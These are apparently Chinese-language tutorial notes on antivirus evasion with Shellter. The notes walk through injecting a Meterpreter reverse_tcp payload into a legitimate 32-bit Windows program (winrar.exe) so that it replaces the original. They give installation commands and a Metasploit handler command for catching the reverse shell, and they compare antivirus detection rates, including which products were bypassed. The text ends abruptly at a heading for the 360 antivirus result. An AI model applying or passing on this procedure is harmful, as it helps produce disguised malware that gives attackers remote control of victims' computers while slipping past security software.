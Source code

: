 本文复现时出现问题：

![image-20220527181539179](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271815246.png)

## Shellter免杀

注意：

- shellter目前只能注入32位的可执行文件
- shellter需要管理员权限运行

### 安装Shellter

ubuntu系统中apt安装：

```
apt-get update
apt-get install shellter
dpkg --add-architecture i386 && apt-get update && apt-get install wine32
```

kali中不是很好用，windows中手动下载手动下载：

官方下载站点`https://www.shellterproject.com/download/`，下载后解压，无需安装，cmd下可直接使用。

![image-20220527182416161](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271824223.png)

### 生成payload（VT免杀率7/69)

需要提前准备一个PE文件作为被注入程序。用之前选的`putty.exe`来进行测试。

必须使用32位PE文件，下载一个32位putty.exe：

![image-20220527182755237](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271827287.png)

之后程序会把`putty.exe`进行备份，因为生成的payload会自动覆盖原来的`putty.exe`。

但`putty-32.exe`生成报错，换了一个32位可执行文件`winrar.exe`：

![image-20220527185054107](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271850186.png)

选项`Enable Stealth Mode`，是否启用隐身模式，启用后免杀效果会变差，建议不启用。

还是选择`windows/meterpreter/reverse_tcp`作为payload

![image-20220527185214043](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271852105.png)

全程自动化生成，最终的生成文件会替换原来的`winrar.exe`。

通过对比可发现程序稍微变大了

在msf中使用`handler -H 192.168.174.128 -P 6666 -p windows/meterpreter/reverse_tcp`进行监听

360和火绒均可查杀（原po执行360和火绒均可免杀，msf正常上线）。

在virustotal.com上查杀率为12/65，Bypass了卡巴、瑞星（原po为7/69，卡巴、瑞星、微软三个都没bypass）。

360：

